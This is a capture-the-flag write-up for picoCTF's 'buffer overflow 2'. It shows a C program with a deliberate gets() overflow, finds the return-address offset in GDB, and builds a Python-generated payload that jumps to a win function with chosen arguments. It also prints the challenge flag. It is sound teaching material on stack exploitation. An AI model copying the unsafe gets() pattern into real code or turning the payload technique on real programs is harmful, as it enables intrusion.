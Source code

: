 # buffer overflow 2
slopey112 - 4/11/19

We are given a binary wherein when we input a string, it bounces it back to us.
```
root@kali:~/Crack Me# ./vuln3
Please enter your string: 
a string!
a string!
```
Well that's not very helpful. Taking a look at the source code shows us the vulnerability in this program.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xDEADC0DE)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
Okay. So once again, as the title states, we have a buffer overflow vulnerability; the `vuln` function allows us to put as much stuff as we want inside. And conveniently enough, there is a `win` function disconnected from the rest of the function. What's more, it requires two parameters for us to get the flag.

Let's start by finding the offset. We'll load up GDB and we'll feed in a generic alphabet pattern.
```
(gdb) r <<< $(python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ'")
Starting program: /root/Crack Me/vuln3 <<< $(python -c "print 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ'")
Please enter your string: 
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
```
Okay. So we get a segmentation fault when we are accessing `0x43434343`, which is `CCCC` in ASCII. Let's take a step back and ask how we even ran into a segmentation fault. At the core of the problem, a segmentation fault is triggered when we are trying to access memory that doesn't exist. Let's think about that for a moment. In what situation in this program would a buffer overflow make it such that unattainable memory, in this case `0x43434343` is accessed?

The answer lies in memory. Let's say we're in our main function and we call another function. Before we jump to that function, we push our current address in our stack. That way, when the method we call is finished executing, the program simply looks back on the stack for where to go. So that means we must have overwritten our return address!

We can exploit this easily by popping in the address of the `win` function instead of `CCCC`. Insofar as the parameters, that's an easy fix as well--parameters to methods are pushed onto the stack. So all we need to do is the same. A key thing to note is the presence of the saved EBP address. Remember how we need to remember where we were last? That's the saved EBP address. So we'll need an extra 4 bytes to overwrite that.

Putting all of that together, we get our payload. Let's put a breakpoint at the last instruction of the `vuln` function and we'll see this thing in action.
```
(gdb) b *0x0804866c
Breakpoint 1 at 0x804866c
(gdb) r <<< $(python -c "print 'A'*112+'\xcb\x85\x04\x08'+'BBBB'+'\xef\xbe\xad\xde'+'\xde\xc0\xad\xde'")
Starting program: /root/Crack Me/vuln3 <<< $(python -c "print 'A'*112+'\xcb\x85\x04\x08'+'BBBB'+'\xef\xbe\xad\xde'+'\xde\xc0\xad\xde'")
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBﾭ�����

Breakpoint 1, 0x0804866c in vuln ()
(gdb) si
0x080485cb in win ()
```
Bam. When we make a single step in the function, we go to `win` instead of `main`, where the method was called.

And when we do this on the shell server, we get our flag.
```
slopey112@pico-2018-shell:/problems/buffer-overflow-2_2_46efeb3c5734b3787811f1d377efbefa$ python -c "print 'A'*
112+'\xcb\x85\x04\x08'+'BBBB'+'\xef\xbe\xad\xde'+'\xde\xc0\xad\xde'" | ./vuln
Please enter your string:                                                                                      
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
A˅BBBBﾭ-                                                                                                       
picoCTF{addr3ss3s_ar3_3asy1b78b0d8}
```

